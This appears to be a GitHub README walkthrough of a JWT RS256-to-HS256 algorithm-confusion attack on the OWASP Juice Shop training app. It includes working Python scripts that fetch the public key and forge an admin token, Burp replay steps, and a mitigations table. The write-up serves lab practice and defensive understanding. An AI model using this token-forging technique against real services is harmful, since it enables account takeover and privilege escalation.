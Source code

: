 This is a **comprehensive, OffSec-grade deep dive** into the exploitation process of the **JWT RS256 to HS256 Downgrade Attack** specifically against the **OWASP Juice Shop "Login Admin"** challenge.

---

## 📁 Directory Structure

```
JWT-RS256-to-HS256-Attack-JuiceShop/
├── 01_get_jwks.py           # Downloads and parses the JWKS
├── 02_jwks_to_pem.py        # Converts JWKS to PEM public key
├── 03_forge_token.py        # Crafts HS256 token using RSA public key as HMAC key
├── public.pem               # Output public key used for signing
├── forged_token.txt         # Output token (admin@juice-sh.op)
├── README.md                # Full documentation
```

---

## 🔽 Step 1: Download the JWKS

### 🔧 `01_get_jwks.py`

```python
import requests
import json

url = "http://localhost:3000/.well-known/jwks.json"
response = requests.get(url)
jwks = response.json()

with open("jwks.json", "w") as f:
    json.dump(jwks, f, indent=2)

print("[+] JWKS saved to jwks.json")
```

📌 Output: `jwks.json` file containing modulus (`n`) and exponent (`e`) of the RSA public key.

---

## 🔁 Step 2: Convert JWKS → PEM

### 🔧 `02_jwks_to_pem.py`

```python
import base64
import json
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.backends import default_backend

# Read JWKS
with open("jwks.json", "r") as f:
    jwks = json.load(f)

key = jwks['keys'][0]

# Decode modulus and exponent
n = int.from_bytes(base64.urlsafe_b64decode(key['n'] + '=='), 'big')
e = int.from_bytes(base64.urlsafe_b64decode(key['e'] + '=='), 'big')

# Build public key object
public_numbers = rsa.RSAPublicNumbers(e, n)
public_key = public_numbers.public_key(default_backend())

# Serialize to PEM
pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

with open("public.pem", "wb") as f:
    f.write(pem)

print("[+] Public key saved to public.pem")
```

📌 Output: `public.pem` → the RSA public key, now usable as an HMAC secret.

---

## 🧪 Step 3: Forge JWT Using HS256

### 🔧 `03_forge_token.py`

```python
import jwt

with open('public.pem', 'rb') as f:
    public_key = f.read()

# JWT payload with escalated privilege
payload = {
    "email": "admin@juice-sh.op"
}

# Create HS256 token signed with public key as secret
token = jwt.encode(payload, public_key, algorithm='HS256')

print(f"[+] Forged token:\n{token}")

with open("forged_token.txt", "w") as f:
    f.write(token)
```

📌 Output: `forged_token.txt` → the forged token that grants **admin access**.

---

## 📍 Step 4: Replay via Burp Suite (Manual)

### 🛠️ Steps:

1. Open Burp and go to **Proxy > Intercept**.
2. Intercept a login request using a regular user account.
3. In the HTTP request headers, locate:

   ```
   Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
   ```
4. Replace the JWT value with the contents of `forged_token.txt`.

   ```
   Authorization: Bearer <your_forged_token>
   ```
5. Forward the request.

### 📊 Result:

* You’ll now be authenticated as **[admin@juice-sh.op](mailto:admin@juice-sh.op)**.
* Navigate to `/score-board` to confirm that **“Login Admin” challenge** is marked **SOLVED ✅**.

---

## 🔐 How the Exploit Works – Deep Dive

### 📌 Cryptographic Misuse

* **RS256** = RSA + SHA-256 (asymmetric)
* **HS256** = HMAC + SHA-256 (symmetric)
* If the backend does this:

  ```js
  jwt.verify(token, key)
  ```

  without checking:

  ```js
  if (alg !== 'RS256') reject();
  ```

  then an attacker can:

  * Change the `alg` in JWT header to `"HS256"`
  * Use the RSA **public key** as an **HMAC secret**
  * Generate a valid signature

---

### 🔥 Impact

| Vector               | Description                                   |
| -------------------- | --------------------------------------------- |
| Privilege Escalation | Login as `admin@juice-sh.op` without password |
| Broken AuthN         | Compromises JWT-based session validation      |
| Signature Forgery    | Creates tokens that pass backend verification |

---

## 🛡️ Real-World Mitigations

| Control                          | Purpose                                        |
| -------------------------------- | ---------------------------------------------- |
| 🔒 Enforce algorithm server-side | Don’t allow client to define `alg`             |
| 🔍 Validate library behavior     | Use libraries that hardcode expected algorithm |
| 🚫 Avoid key misuse              | RSA public keys must **never** be used as HMAC |
| 📜 Audit `.well-known/jwks.json` | If exposed, validate access control & intent   |

---

## 🧷 Final Notes

* This method simulates **real-world cryptographic abuse** and is useful in Red Team scenarios where **JWT handling is improperly implemented**.
* The technique is **critical** in penetration testing JWT auth flows.

---

## ✍️ Author

**SHajohn16**
🔗 GitHub: [https://github.com/Shajohn16](https://github.com/Shajohn16)
🎓 OSCP | OSWE (in-progress) | WAPT | Exploit Dev Focused

---
![OWASP JUICE SHOP - LOGIN ADMIN](https://github.com/user-attachments/assets/1d11c39a-c29a-4b9c-9cc3-8d5b8c4ac891)
